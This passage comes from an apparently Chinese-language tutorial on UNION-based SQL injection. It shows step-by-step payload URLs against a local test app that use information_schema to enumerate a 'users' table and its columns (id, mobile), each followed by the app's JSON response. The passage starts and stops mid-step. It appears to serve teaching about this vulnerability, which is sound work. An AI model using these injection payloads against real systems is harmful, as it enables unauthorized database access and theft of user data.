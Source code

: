 ```
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "users",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2#'",
    "Err": ""
  }
}
```
拿到了用户表名：users；
#### 第五步：暴字段名

```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "id",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1#'",
    "Err": ""
  }
}
```
1、通过系统表information_schema.columns和数据库名test和表名users，暴露了第一个字段名id；<br>
2、递增limit，可以暴露出所有字段名；<br>
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "mobile",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2#'",
    "Err": ""
  }
}

http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3%23

{
  "code": 0,
  "message": "OK",
```